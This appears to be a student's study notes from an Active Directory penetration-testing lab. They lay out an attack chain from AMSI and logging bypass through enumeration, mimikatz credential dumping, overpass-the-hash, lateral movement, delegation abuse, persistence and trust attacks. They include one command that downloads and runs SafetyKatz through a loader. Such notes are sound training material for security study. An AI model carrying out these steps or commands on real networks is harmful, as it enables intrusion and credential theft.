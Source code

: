 # Steps to take
- First open cmd set execution policy to bypass
- Use Invisi-Shell to bypass scriptBlock logging, Module logging, Transcription and AMSI.
- Try bypassing .net AMSI using the code snippet provided in lab manual.
- If constrained language mode also known as controlled language mode is enabled see applocker policy and run scripts from allowed directory.
- Enumerate Current Domain, Forest, Users, Computers, Domain Admins, Groups, Domain Controller information, enterprise administrators using AD module or PowerView.
- Enumerate Group Policy Objects by getting list of all GPO in current domain, List all OUs(Organizational Units), List GPOs applied to each Organizational Unit.
- Enumerate ACL for groups(ex: domain admins), get interesting ACEs, ACL for domain, forest, etc. Focus on Generic all, Generic write permissions and keep note of it.
- Enumerate trusts of current domain, current forest, another forest, all domains for another forest, external trust of all domains in current forest.
- Enumerate file shares, file server and sensative files.
- Find machines where current compromised user has local admin access, Find computers where a domain admin/high value user has sessions, etc
- Escalate privilege on current machine.
- Run mimikatz on current machine and check for other user's creds.
- Access that machine where your user has admin rights using lateral movement technique(ex: winrs)
- Run mimikatz or safetykatz on that machine bypassing by first transferring Loader.exe on allowed directory(applocker policy) then port forwrding to download and execute mimikatz, safetykatz from your initial compromised machine(C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit)
- Run over pass the hash(From your initial machine) using creds for the latest extracted users and again find local admin access for that user on any other machine.
- Repeat the steps.
- After getting domain admin access go for persistance.
- If we do not find other paths after compromising a user example our compromised user/users do not have session or local admin rights on other machine then check kerberoasting as well as asreproasting.
- Check for Set SPN targeted kerberoasting attack if you have generic all or generic write privilege on a user.
- Check for unconstrained delegation.
- Check for constrained delegation.
- Check for Resource Based Constrained delegation(RBCD)
- Check For priv esc via trusts/ trust attacks(Priv-Esc-Trusts-Inside-Forest.md and Priv-Esc-Trusts-Across-Forest.md) read below............

# Now it will be turn for compromising other domains
Here, after getting domain admin we are only administrator of domain dollarcorp.moneycorp.local in the moneycorp.local forest. We got access to studentvm.dollarcorp.moneycorp.local, got reverse shell via jenkins in dcorp-ci.dollarcorp.moneycorp.local, knew student1 had local admin rights and got access to dcorp-adminsrv.dollarcorp.moneycorp.local and got appadmin creds then accessed dcorp-appsrv.dollarcorp.moneycorp.local. knew ciadmin is local admin on dcorp-mgmt.dollarcorp.moneycorp.local where we got domain admin creds, also knew ci admin has write permission over dcorp-mgmt so we utilized RBCD to get to dcorp-mgmt.dollarcorp.moneycorp.local and many attacks all these attacks were performed and domain admin was compromised and persistance was setup for dollarcorp.moneycorp.local domain in moneycorp.local forest there may be multiple domains like rupeescorp.moneycorp.local there may be child domain of dollarcorp that is us.dollarcorp.moneycorp.local so on so in order to now compromise other domains(users and computers in other domains) we utilize Cross Trust attacks or prvilege escalation to other domains via trusts. read Priv-Esc-Trusts.md

- Check For AD CS misconfigurations for privilege escalation inside forest.